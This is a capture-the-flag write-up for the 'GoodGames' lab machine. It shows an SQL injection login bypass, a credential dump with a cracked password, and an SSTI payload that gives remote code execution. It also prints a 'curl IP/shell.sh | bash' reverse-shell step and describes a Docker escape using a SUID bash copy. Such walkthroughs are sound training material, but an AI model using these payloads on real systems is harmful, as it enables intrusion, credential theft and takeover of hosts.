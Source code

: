 ```yaml
---
description: >-
  Basic web exploits of SQL Injection and SSTI, followed by a Docker Container
  Escape.
---
```


# GoodGames

## Gaining Access

As usual we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (63) (2).png" alt=""><figcaption></figcaption></figure>

Take note of the `goodgames.htb` domain name.&#x20;

### SQL Injection

The website is about some video games stuff:

<figure><img src="../../../.gitbook/assets/image (23) (2).png" alt=""><figcaption></figcaption></figure>

In the corner of the page, there's a login available.

<figure><img src="../../../.gitbook/assets/image (41) (2).png" alt=""><figcaption></figcaption></figure>

This login is bypassable with the `' OR 1=1 -- -` input for the `email` parameter. When we login, we would be redirected to `internal-administration.goodgames.htb`.  This page has another login where SQL Injection does not work.

<figure><img src="../../../.gitbook/assets/image (1) (1) (7).png" alt=""><figcaption></figcaption></figure>

Initially, I assumed that we needed to find credentials elsewhere and looked around the website. Understanding that there was an SQL Injection weakness earlier, we probably could dump out the credentials.

I used `sqlmap` to automatically dump ot out, and got `admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec` as the output. This hash could be cracked to give the password of `superadministrator`.&#x20;

### SSTI in Username

Once logged in, the page redirected us to a dashboard where we could update our user profile.

<figure><img src="../../../.gitbook/assets/image (35) (3).png" alt=""><figcaption></figcaption></figure>

The profile updater takes the user input for full name and outputs it on the screen. I tested this with a `{{7*7}}` payload as this was running on Werkzeug, which was a Python based server (detected in Nmap scan earlier).&#x20;

I was pleased to see that it worked:

<figure><img src="../../../.gitbook/assets/image (13) (3) (1).png" alt=""><figcaption></figcaption></figure>

With that, I proceeded to dump out the config of this server using `{{config.items()}}`.&#x20;

<figure><img src="../../../.gitbook/assets/image (44) (2) (1).png" alt=""><figcaption></figcaption></figure>

The SSTI also granted us RCE on the server with this payload:

```
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../../.gitbook/assets/image (53) (2) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can replace the `id` command with a `curl IP/shell.sh | bash` payload to gain a reverse shell as root on this Docker Container.

<figure><img src="../../../.gitbook/assets/image (22) (5).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Now that we are in the container, we can scan around the network for other hosts that are alive. This can be done using this one-liner:

```bash
for i in {1..254}; do ping -c 1 172.19.0.$i | grep 'from; done 
```

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

172.19.0.1, but we have no users and cannot do much with this for now. We can check the `/home` directory to find the `augustus` user. Additionally, I used `mount` to check all the directories mounted into the container from the host.

<figure><img src="../../../.gitbook/assets/image (51) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since there was no `augustus` user within the `/etc/passwd` file on the container, this must be from the host. I just tried to SSH into 172.19.0.1, and it worked.

<figure><img src="../../../.gitbook/assets/image (52) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Earlier, we determined using `mount` that a possible mount point was the `/home/augustus` directory. Files that were edited while I was in the container were reflected within the host as well.&#x20;

When copying files into that directory, because I was a root user in the container, the owner of the files in the host was also root. So, I copied over `/bin/bash` and did `chmod +s bash` within the user directory.

This created a bash file with the SUID bit set within the host:

<figure><img src="../../../.gitbook/assets/image (31) (1) (3).png" alt=""><figcaption></figcaption></figure>

Getting root is trivial:

<figure><img src="../../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>
